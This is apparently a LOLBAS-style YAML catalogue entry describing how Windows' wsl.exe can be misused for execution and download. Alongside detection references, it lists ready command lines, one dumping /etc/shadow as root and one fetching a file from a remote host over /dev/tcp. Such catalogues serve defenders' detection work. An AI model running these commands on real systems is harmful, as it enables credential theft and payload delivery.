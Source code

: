 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: 'Matthew Brown'
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: EXE
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: EXE
  - Command: wsl.exe --exec bash -c "<command>"
    Description: Executes Linux command (for example via bash) as the default user (unless stated otherwise using `-u <username>`) on the default WSL distro (unless stated otherwise using `-d <distro name>`)
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wsl_lolbin_execution.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
  - Person: Konrad 'unrooted' Klawikowski
---
```

